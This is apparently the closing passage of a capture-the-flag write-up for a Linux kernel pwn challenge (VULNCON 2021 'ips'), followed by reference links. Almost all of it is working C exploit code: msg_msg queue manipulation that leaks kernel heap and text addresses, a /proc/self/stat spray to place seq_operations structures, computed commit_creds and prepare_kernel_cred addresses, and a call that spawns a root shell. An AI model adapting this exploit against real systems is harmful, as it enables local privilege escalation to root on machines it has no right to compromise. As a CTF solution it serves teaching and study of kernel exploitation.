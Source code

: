 ```c
        printf("[-] Not able to leak");
        exit(1);
    }
    // printf("[+][LEAK] pointer to kheap32 %p\n",leaked_heap32);
    size_t next_target = leaked_heap32+0x20;
    msgQueueDel(msgid);
    msgid   = msgQueueSpwan("/home/user/1");
    msgQueueSend(msgid,"Me again! again!",0x50,4); // -1
    edit(-1,strcat(strdup("\xff\xff\1\2\3\4\5\6\7\x08\xff\xff\xff\xff\xff\xff\xff\xff"),p64(next_target-0x30))); 

    
    res = msgQueueRecv(msgid,0xfd0+0x38,0);
    size_t * kheap32 = &(res->mtext[0xfd0+0x30-8]);
    size_t seqop_target=*kheap32;
    
    int stats[0x80] ={0};
    for(int s = 0 ; s< 0x40 ; s++) // Just spray half page so we have the posibility to stay at the same slab node
        stats[s] = open("proc/self/stat",0);
    printf("[+][LEAK] Kernel Heap-32  %p\n",seqop_target);
    
    msgQueueDel(msgid);
    msgid   = msgQueueSpwan("/home/user/1");
    msgQueueSend(msgid,"Me again! again! again!",0x50,5); // -1
    edit(-1,strcat(strdup("\xff\xff\1\2\3\4\5\6\7\x08\xff\xff\xff\xff\xff\xff\xff\xff"),p64(seqop_target+0x20-8))); 
    res = msgQueueRecv(msgid,0xfd0+0x8,0); // AAF
    size_t * verify = &res->mtext[0xfd0];
    printf("[+][LEAK] Kernel Executable: %p\n",*verify);
    // printf("[+] %p",0xfff & (size_t)(*verify));         
    if( (0xfff & (size_t)(*verify)) != 0xfd0){
        puts("[-] Failed to free an FOP");
        exit(1);
    }
    saveStatus();

    hook[0] = getRootPrivilige;
    commit_creds = 0xffffffff8108a830-0xffffffff8120efd0+(*verify);
    prepare_kernel_cred = 0xffffffff8108aad0-0xffffffff8120efd0+(*verify);
    // Refil
    msgid   = msgQueueSpwan("/home/user/4");
    for(int s = 0; s<2;s++) // Tomake exploit more reliable
        msgQueueSend(msgid,atk,0xfd0+0x18,6+s);
        
    puts("Let's hit the fop!");
    stop();
    char x;
    for(int s = 3 ; s < 0x80;s++){
        read(s,&x,0x1);
    }
    getRootShell();
//    stop();
}
```


[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips